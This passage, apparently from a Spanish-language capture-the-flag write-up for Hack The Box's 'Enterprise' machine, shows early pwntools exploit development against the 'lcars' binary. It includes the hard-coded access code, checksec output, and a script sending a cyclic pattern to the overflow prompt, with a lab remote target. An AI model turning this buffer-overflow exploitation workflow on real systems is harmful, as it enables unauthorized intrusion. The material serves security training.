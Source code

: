 ```py

r.sendlineafter("Enter Bridge Access Code:", "picarda1")
r.sendlineafter("Waiting for input:", "4")
print(r.recv())

# ===================== Aca termina la magia ====================
r.interactive()
```

Ejecutamos:

```bash
❭ python3 exploit.py ./lcars
[*] '/htb/enterprise/scripts/lcars'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[+] Starting local process './lcars': pid 898435
b' \n'
[*] Switching to interactive mode
Disable Security Force Fields
Enter Security Override:
$
```

Bien, el programa esta esperando el input donde encontramos el **Segmentation Fault**, por lo tanto sera donde enviaremos nuestro payload:

```py
#!/usr/bin/python3

import sys
from pwn import *

elf = context.binary = ELF(sys.argv[1])
context.terminal = ['tmux', 'splitw', '-h']

def start():
    if args.GDB:
        return gdb.debug(sys.argv[1])
    if args.REMOTE:
        return remote('10.10.10.61', 32812)
    else:
        return process(sys.argv[1])

r = start()
# ======================= Aca ta la magia ========================

payload = "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac"

r.sendlineafter("Enter Bridge Access Code:", "picarda1")
r.sendlineafter("Waiting for input:", "4")
r.sendlineafter("Enter Security Override:", payload)

# ===================== Aca termina la magia ====================
r.interactive()
```
